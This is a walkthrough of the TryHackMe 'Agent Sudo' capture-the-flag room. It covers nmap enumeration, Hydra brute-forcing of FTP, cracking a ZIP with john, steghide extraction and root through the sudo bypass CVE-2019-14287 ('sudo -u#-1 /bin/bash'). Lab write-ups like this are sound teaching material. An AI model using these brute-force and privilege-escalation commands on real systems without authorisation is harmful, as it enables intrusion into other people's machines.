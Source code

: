 ```yaml
---
title: "Agent Sudo"
date: 2020-05-09T10:17:19+02:00
categories:
- Writeups
tags:
- tryhackme
- sudo
- cracking
---
```


![asdf](/images/agent-sudo.png)

This room can be found at [Tryhackme](https://tryhackme.com/room/agentsudoctf). It is a pretty simple and fun room that requires the knowlege of a few password cracking tools and privelege escalation.

## Enumerate

Run `nmap` with `nmap -sV -sC -vv $IP | tee nmap.txt` and we see that we have three ports open: 21, 22 and 80.

```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5hdrxDB30IcSGobuBxhwKJ8g+DJcUO5xzoaZP/vJBtWoSf4nWDqaqlJdEF0Vu7Sw7i0R3aHRKGc5mKmjRuhSEtuKKjKdZqzL3xNTI2cItmyKsMgZz+lbMnc3DouIHqlh748nQknD/28+RXREsNtQZtd0VmBZcY1TD0U4XJXPiwleilnsbwWA7pg26cAv9B7CcaqvMgldjSTdkT1QNgrx51g4IFxtMIFGeJDh2oJkfPcX6KDcYo6c9W1l+SCSivAQsJ1dXgA2bLFkG/wPaJaBgCzb8IOZOfxQjnIqBdUNFQPlwshX/nq26BMhNGKMENXJUpvUTshoJ/rFGgZ9Nj31r
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHdSVnnzMMv6VBLmga/Wpb94C9M2nOXyu36FCwzHtLB4S4lGXa2LzB5jqnAQa0ihI6IDtQUimgvooZCLNl6ob68=
|   256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOL3wRjJ5kmGs/hI4aXEwEndh81Pm/fvo8EvcpDHR5nt
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Change the user agent to `C` and get redirected to a page `$IP/agent_C_attention.php`. We get the information that the user is called `chris`. 

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```

## Hash Cracking and Brute-Force

We now have a user and know that the password should be weak. Let's start with FTP.

### FTP

`ftp` can be cracked with `Hydra`

```bash
hydra -l chris -P /usr/share/wordlists/users/100_common_passwords.txt -vV $IP ftp
```

Password not found. Let's test a bigger list:

```bash
hydra -l chris -P /usr/share/wordlists/users/1000_common_passwords.txt -vV $IP ftp
```

Password found!

Use `ftp $IP` to connect to the `ftp` server and download the files using `get <file>`.

### ZIP

Running `strings cutie.png` reveals that there is something in the file.

We run `binwalk -e cutie.png` to extract all embedded files. We find a password protected ZIP file called `8702.zip`. We can use `john` to crack the password. 

```bash
zip2john 8702.zip > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Password found!

The file `To_agentR.txt` now has content:

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

### Steganography

Decode the string with base64: `echo QXJlYTUx | base64 -d`.

Use `steghide` to find hidden message in `cute_alien.jpg`.

`steghide extract -sf cute_alien.jpg`

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

We now have a password for the user `james` and can login with `ssh`.

```bash
ssh james@$IP
```

## Privlege Escalation

We upload `LinEnum.sh` to the remote server.

```
[-] Sudo version:
Sudo version 1.8.21p2
```

We find that there is a vulnerability for the `sudo` version `CVE-2019-14287`.

`sudo -l` reveals that `james` can run the command `/bin/bash` as any user but `root` which seems fine.

```
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

However, the vulnerability is that if we specify a user ID such as *-1*, it will run as the id *0* which is the root user.

```bash
sudo -u#-1 /bin/bash
```

This gives us `root` and we can find the root flag!
